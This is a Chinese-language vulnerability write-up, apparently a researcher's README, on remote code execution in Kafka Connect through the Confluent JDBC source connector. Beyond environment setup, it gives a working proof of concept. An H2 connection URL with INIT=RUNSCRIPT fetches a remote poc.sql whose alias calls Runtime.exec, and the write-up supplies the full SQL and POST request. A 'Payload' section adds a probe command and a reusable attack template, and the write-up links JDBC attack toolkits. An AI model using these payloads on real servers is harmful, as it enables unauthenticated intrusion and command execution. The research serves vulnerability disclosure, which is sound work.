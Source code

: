 
# JDBC 反序列化造成kafka Connect任意代码执行
## 前情
日常吃瓜，刷到kafka爆出RCE，为其Connect框架存在JNDI注入，如下：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out.png)
查看相应解析，发现只是简单修改了某项配置：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927162901607.png)
JAAS是java的认证与授权机制，Kakfa支持使用JNDI登陆模块进行登陆：
![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163013645.png)
该漏洞发生于客户端与服务端进行初次连接的时候，向服务端发送用户的提供地址，伪造一个恶意的JNDI服务，从而造成命令执行。
 
由此推测作者应该是翻kafka的官方文档，查找API、配置等，刚好发现该配置支持JNDI，判断JNDI URL是否可控，发现可控，成功挖掘0day。

然后沿着作者的思路，尝试翻看官方文档，是否存在类似配置，最终查找了大半天并未发现。

然后开始思考，kafka Connect框架的作用是用来从其他数据库导入数据到kafka，也可以将kafka中的数据导出到其他数据库，那么将其他数据库的数据导入kafka时，是否可以控制数据库连接地址的URL，造成JDBC 反序列化，从而命令执行呢？

一开始发现kafka的Connect只提供了最基本的Connector，没有提供从数据库读取信息到kafka的具体实现，再次搜索相关信息，发现JDBC具体实现由Confluent公司提供，这是一个很常见的功能，为什么kafka不提供呢？我觉得原因有亮点：
- 他作为框架，只提供了基础架构，而JDBC虽然常用，但是不好持续维护；
- JDBC由kafka的商业化母公司Confluent提供，估计是为了以后捞钱；

## 搭建环境
从官网下载最新的kafka：
![image-20230804211601546](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163106007.png)
解压：
 ![image-20230804211732233](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163141985.png)
配置kafka：
```
$ vim config/server.properties
```
修改server.properties 文件：

```
...
//添加这一句
listeners=PLAINTEXT://:9092

...
//还有这个
zookeeper.connect=localhost:2181

...
```
启动zookeeper：
```
$ bin/zookeeper-server-start.sh config/zookeeper.properties
```

打开一个终端运行kafka：


```
$ cd ~/Dev/kafka_2.13-3.5.1/
$ bin/kafka-server-start.sh config/server.properties
```

接着配置kafka Connect，先介绍一下kafka Connect：
kafka Connect是一个框架，提供了从其他数据库获取信息到kafka，或者从kafka导出信息到数据库的能力，他并没有具体的实现，具体的实现由Confluent公司提供，他是kafka的商业化母公司，对于数据库的具体实现为JDBC Connector。
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163159105.png)
先下载JDBC Connector从该URL：https://www.confluent.io/hub/confluentinc/kafka-connect-jdbc：
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163223339.png)
打开一个新终端，在kafka的根目录创建一个connector-libs目录，然后解压刚刚下载的zip包，移动到connector-libs目录：

```
$ cd ~/Dev/kafka_2.13-3.5.1/
$ mkdir connector-libs 
$ unzip ~/Downloads/confluentinc-kafka-connect-jdbc-10.7.3.zip
$ mv ./confluentinc-kafka-connect-jdbc-10.7.3/lib connector-libs/
```

本示例使用h2作为数据库源进行演示，h2是java语言开发的嵌入式数据库，SpringBoot就使用了H2数据库，同时他也是最容易执行命令的，其他数据库也有同样的效果，不过会比较麻烦。
下载H2 数据引擎jar包, 将它移动到connector-libs目录：
 ![image-20230804213805768](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163253546.png)
```
$ mv ~/Downloads/h2-1.4.199.jar ~/Dev/kafka_2.13-3.5.1/connector-libs/lib/
```
配置 connect-standalone.properties, 添加 plugin.path熟悉：

```
$ vim config/connect-standalone.properties
```

添加下面一行：

```
plugin.path=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home,/Users/zeanhike/Dev/kafka_2.13-3.5.1/connector-libs/lib
```

将 h2-1.4.199.jar 设置 CLASSPATH 环境变量（该处卡了一天，一开始并没有想到要将该jar导出到CLASSPATH，然后一直报错，找不到合适的数据库连接池，然后找到StackOver社区，才发现要导出到CLASSPATH）
 ![img](https://raw.githubusercontent.com/CyberIKUN/picture/main/img/out-20230927163315051.png)
启动 Kafka Connect：


```
$ bin/connect-standalone.sh config/connect-standalone.properties 
```


## 攻击
创建一个SQL并将它保存为poc.sql：

```
CREATE ALIAS EXEC_CMD AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "zeanhike";}';CALL EXEC_CMD ('open -a Calculator.app')
```


启动HTTP 服务并且将poc.sql文件放到http服务的根目录：

```
$ python3 -m http.server 1022
```

然后发送如下包：
```
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:1022/poc.sql'",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
```
 
 
## 不足
● 还未尝试其他数据库，比如MySQL、Oracle等
● 未做成自动化检测工具、并集成其他数据库
● 需要kafka Connect存在同时使用了JDBC Connector、且未开启鉴权（默认不开启）
## Payload
探测kafka Connect是否存在：

 ```
curl http://hostname:port/connectors
```

然后根据返回的关键字判断使用了什么数据库（不准确，可以盲打），然后发送以下攻击包：

```
POST http://localhost:8083/connectors
Content-Type: application/json

{
  "name": "zeanhike",
  "config": {
    "connector.class": "io.confluent.connect.jdbc.JdbcSourceConnector",
    "connection.url": "恶意数据库的连接URL",
    "connection.user": "zeanhike",
    "connection.password": "zeanhike",
    "topic.prefix": "mysql-01-",
    "mode":"bulk"
  }
}
```

<video src="./123.mov"></video>

漏洞利用方式和效果由于不同的数据库而不同，该项目集结了大部分的JDBC攻击https://github.com/su18/JDBC-Attack，MySQL的利用需要用到MySQL Fake Server（https://github.com/fnmsd/MySQL_Fake_Server），H2的利用仅仅需要一个sql语句或者不用都行。
## 修复
在JdbcSourceConnector类上，过滤掉恶意数据库连接URL。
